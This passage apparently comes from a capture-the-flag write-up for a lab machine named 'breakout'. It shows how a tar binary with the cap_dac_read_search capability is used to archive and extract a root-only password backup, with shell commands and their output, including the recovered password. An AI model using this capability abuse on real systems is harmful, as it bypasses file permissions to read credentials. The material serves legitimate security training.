 There is a `tar` file in cyber directory, and it's privilege is root:

```shell
cyber@breakout:~$ ls -la tar
-rwxr-xr-x 1 root root 531928 Oct 19  2021 tar
```

And then, we can doing a little bit of enumeration on the machine, we can see that there is a old_pass.bak file located in /var/backups but we don’t have the required permissions to view the file contents:

```shell
cyber@breakout:/var/backups$ ls -la
total 480
drwxr-xr-x  2 root root   4096 Nov 13 06:27 .
drwxr-xr-x 14 root root   4096 Oct 19  2021 ..
-rw-r--r--  1 root root  40960 Nov 13 06:25 alternatives.tar.0
-rw-r--r--  1 root root  12732 Oct 19  2021 apt.extended_states.0
-rw-r--r--  1 root root      0 Nov 13 06:25 dpkg.arch.0
-rw-r--r--  1 root root    186 Oct 19  2021 dpkg.diversions.0
-rw-r--r--  1 root root    135 Oct 19  2021 dpkg.statoverride.0
-rw-r--r--  1 root root 413488 Oct 19  2021 dpkg.status.0
-rw-------  1 root root     17 Oct 20  2021 .old_pass.bak
cyber@breakout:/var/backups$ cat .old_pass.bak
cat: .old_pass.bak: Permission denied
```

return the `tar` file, it has the unnomal capability, learn capabilities more at [here](https://man7.org/linux/man-pages/man7/capabilities.7.html). Just check it:

```shell
cyber@breakout:~$ getcap tar
tar cap_dac_read_search=ep
```

The capability of `tar` file is `cap_dac_read_search`, It means that it can read all the files on the system irrespective of their permissions.

We can compress the contents of the old_pass.bak file in a tarball and then extract it. This should provide us the the required permissions to view the contents of the file.

```shell
cyber@breakout:~$ ./tar -cf pass.tar /var/backups/.old_pass.bak
./tar: Removing leading `/' from member names
cyber@breakout:~$ ls -la
total 580
drwxr-xr-x  8 cyber cyber   4096 Nov 13 07:05 .
drwxr-xr-x  3 root  root    4096 Oct 19  2021 ..
-rw-------  1 cyber cyber      0 Oct 20  2021 .bash_history
-rw-r--r--  1 cyber cyber    220 Oct 19  2021 .bash_logout
-rw-r--r--  1 cyber cyber   3526 Oct 19  2021 .bashrc
drwxr-xr-x  2 cyber cyber   4096 Oct 19  2021 .filemin
drwx------  2 cyber cyber   4096 Oct 19  2021 .gnupg
drwxr-xr-x  3 cyber cyber   4096 Oct 19  2021 .local
-rw-r--r--  1 cyber cyber  10240 Nov 13 07:05 pass.tar
-rw-r--r--  1 cyber cyber    807 Oct 19  2021 .profile
drwx------  2 cyber cyber   4096 Oct 19  2021 .spamassassin
-rwxr-xr-x  1 root  root  531928 Oct 19  2021 tar
drwxr-xr-x  2 cyber cyber   4096 Oct 20  2021 .tmp
drwx------ 17 cyber cyber   4096 Nov 13 06:35 .usermin
-rw-r--r--  1 cyber cyber     48 Oct 19  2021 user.txt
cyber@breakout:~$ ls
pass.tar  tar  user.txt
cyber@breakout:~$ tar -xf ./pass.tar
cyber@breakout:~$ ls
pass.tar  tar  user.txt  var
cyber@breakout:~$ cat var/backups/.old_pass.bak
Ts&4&YurgtRX(=~h
```